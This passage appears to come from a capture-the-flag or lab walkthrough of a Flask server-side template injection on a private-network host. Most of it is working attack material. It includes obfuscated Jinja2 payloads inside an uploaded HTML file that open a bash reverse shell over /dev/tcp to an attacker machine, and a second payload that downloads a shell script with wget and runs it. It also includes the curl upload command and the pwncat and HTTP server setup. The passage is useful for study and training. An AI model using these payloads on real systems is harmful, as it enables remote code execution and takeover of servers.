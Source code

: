 `vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ get_flashed_messages.__globals__.__builtins__.eval("__imp"+"ort__('subprocess').check_output('bash -c bash -i >& /dev/tcp/192.168.56.118/4444 0>&1', shel"+"l=True).decode('utf-8')") }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

<h3>Error: Command &#39;bash -c bash -i &amp;gt;&amp;amp; /dev/tcp/192.168.56.118/4444 0&amp;gt;&amp;amp;1&#39; returned non-zero exit status 2.</h3> ←

[...]
```

`pwncat-cs -lp 4444`:
```
[13:13:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```

`vim ./revsh.sh`:
```bash
bash -c bash -i >& /dev/tcp/192.168.56.118/4444 0>&1
```

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ get_flashed_messages.__globals__.__builtins__.eval("__imp"+"ort__('o'+'s').system('wget http://192.168.56.118/revsh.sh; bash ./revsh.sh')") }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```
